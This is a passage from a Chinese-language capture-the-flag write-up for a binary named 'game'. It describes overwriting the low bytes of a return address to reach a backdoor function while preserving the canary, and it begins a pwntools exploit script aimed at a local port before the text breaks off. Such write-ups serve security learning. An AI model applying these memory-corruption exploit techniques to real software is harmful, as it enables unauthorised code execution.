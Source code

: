 ![image-20240508125658960](./wp.assets/image-20240508125658960.png)

改了步数后，我们可以考虑把返回地址的低 2 个字节改成`backdoor`，这样我们有 1/16 的几率可以返回到后门函数。接下来的工作就是想办法把`B1`和`B2`改成后门函数的偏移，同时保持返回地址的其他位不变。

> 具体的变换过程可以写一个 C 程序来模拟，反正 name 是完全可控的，可以自由发挥。在完成工作后我们原路返回，可以将上面的 canary 还原。

改完返回地址后，我们需要手动将剩余步数设为 0 来返回。

**exp**

```python
#! /usr/bin/env python3.8
from pwn import *
from ctools import *

context(os="linux", arch="amd64", terminal=['tmux', 'splitw', '-h', '-F' '{pane_pid}', '-P']) 
context.log_level = "debug"

proc_path = './game'
libc_path = ''

conn_context(host='127.0.0.1', port=34843, level=REMOTE, proc=proc_path)
# conn_context(args = [USE_PROXY], ld_rpath = ('./ld-2.23.so', libc_path))

init_proc_with_libc(proc_path, libc_path, force=True)
DEBUG = lambda script = '': gdb.attach(io, gdbscript=script)

elf = ELF(proc_path)
# libc = ELF(libc_path, checksec=False)
io = conn()

def up(times = 1):
    io.sendafter(b'remaining', b'w' * times)

def down(times = 1):
    io.sendafter(b'remaining', b's' * times)

def left(times = 1):
```
